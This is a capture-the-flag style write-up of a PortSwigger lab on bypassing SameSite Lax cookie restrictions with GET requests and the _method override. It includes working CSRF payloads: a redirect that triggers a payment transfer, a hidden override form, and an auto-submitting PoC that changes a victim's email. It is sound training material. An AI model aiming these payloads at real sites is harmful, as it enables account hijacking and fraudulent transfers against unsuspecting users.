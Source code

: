- Sometimes, servers on the internet don't really care if you send them information using a "GET" or "POST" request, especially when you're sending data from a web form. They can handle both types of requests even if they were originally designed for one specific type.

- If they also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a [CSRF attack](https://portswigger.net/web-security/csrf) by eliciting a `GET` request from the victim's browser.

**The following is one of the simplest approaches to launching such an attack:**
```js
<script> 
	document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; 
</script>
```
Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line.

**For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:**
```js
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">         <input type="hidden" name="_method" value="GET"> 
      <input type="hidden" name="recipient" value="hacker"> 
      <input type="hidden" name="amount" value="1000000"> 
</form>
```
Other frameworks support a variety of similar parameters.

## Steps to solve lab - 
### Title - SameSite Lax bypass via method override

**Desc** - This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

**Creds** - You can log in to your own account using the following credentials: `wiener:peter`

**Our end goal** - To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

1. Analyse the website and check that three key conditions must be in place for a CSRF attack to be possible:
After analysing the site, we come a endpoint where it is possible to change the email of a user. So, change your email and at the same time intercept it with burpsuite and sent it to Repeater.
![[csrf52.png]]
   - A relevant action - email change functionality.
   - Cookie based session handling.
   - No unpredictable request parameters - Satisfied(As you can see, there is no CSRF token that we can't predict it).

2. Now, we are going to create "CSRF POC" script with the help of burpsuite pro and for that right click on the request that we captured earlier with the help of burpsuite pro do the below steps:
"Engagement tools" > "Generate CSRF PoC"
![[csrf53.png]]

**After doing the above steps, there is a new window pop up.**
![[csrf54.png]]
In this window, click on "Options" and make sure to select first and last options and click "Regenerate" and copy the script.

3. Now, change the method in the form tag to "GET" because chrome browser by default enforce lax restriction on cross site requests(Lax restriction only allow request if request is sent with method as GET) and add the below code just below to form tag to pass the parameters.
```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8a005504bd85b680d2495900520080.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST"> 
	  <input type="hidden" name="email" value="sukuna&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
_method just override the method of form tag to "POST".

![[csrf55.png]]

